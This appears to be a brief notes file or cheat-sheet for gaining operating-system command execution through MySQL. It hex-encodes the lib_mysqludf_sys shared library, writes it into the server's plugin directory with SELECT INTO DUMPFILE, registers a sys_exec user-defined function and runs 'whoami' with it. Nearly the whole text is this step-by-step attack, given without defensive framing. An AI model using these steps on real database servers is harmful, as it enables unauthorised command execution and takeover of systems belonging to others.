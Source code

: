 mysql sys_exec UDF
==================

Make hexa

         xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex

Manual
======

        # copy clipboard hex values
        cat lib_mysqludf_sys.so.hex | xclip -selection c
        # set vars with hex values
        set @shell =  0x${lib_mysqludf_sys.so.hex};
        # retrieve plugin dir path
        select @@plugin_dir;
        select binary @shell into dumpfile '${plugin_di_path}/udf_sys_exec.so';
        create function sys_exec returns int soname 'udf_sys_exec.so';
        select * from mysql.func where name='sys_exec';
        select sys_exec('whoami');

